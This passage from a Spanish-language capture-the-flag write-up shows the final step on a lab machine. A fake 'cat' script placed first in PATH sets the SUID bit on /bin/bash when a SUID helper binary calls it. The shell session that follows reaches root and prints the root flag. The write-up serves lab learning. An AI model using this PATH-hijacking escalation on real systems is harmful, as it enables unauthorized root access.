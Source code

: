 ```bash
dexter@debian:/home/dexter$ cd /tmp
dexter@debian:/tmp$ touch cat
dexter@debian:/tmp$ chmod +x cat 
dexter@debian:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
dexter@debian:/tmp$ export PATH=/tmp:$PATH
dexter@debian:/tmp$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
dexter@debian:/tmp$ 
```

Vamos a desirle que nos le asigne el privilegio `SUID` ala `bash`

```bash
dexter@debian:/tmp$ nano cat
dexter@debian:/tmp$ /bin/cat cat 
chmod u+s /bin/bash
dexter@debian:/tmp$ 
```

Podemos convertirnos en `root`

```bash
dexter@debian:/tmp$ /opt/get_access 
All services are disabled. Accessing to the system is allowed only within working hours.

dexter@debian:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Aug  4  2021 /bin/bash
dexter@debian:/tmp$ 
```

## Root flag

Vamos a reparar el `PATH` para poder ver la `flag`

```
bash-5.1# export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
bash-5.1# cd /root
bash-5.1# whoami
root
bash-5.1# ls
root.txt  system.info
bash-5.1# cat root.txt 
ICA{Next_Generation_Self_Renewable_Genetics}
bash-5.1# 
```













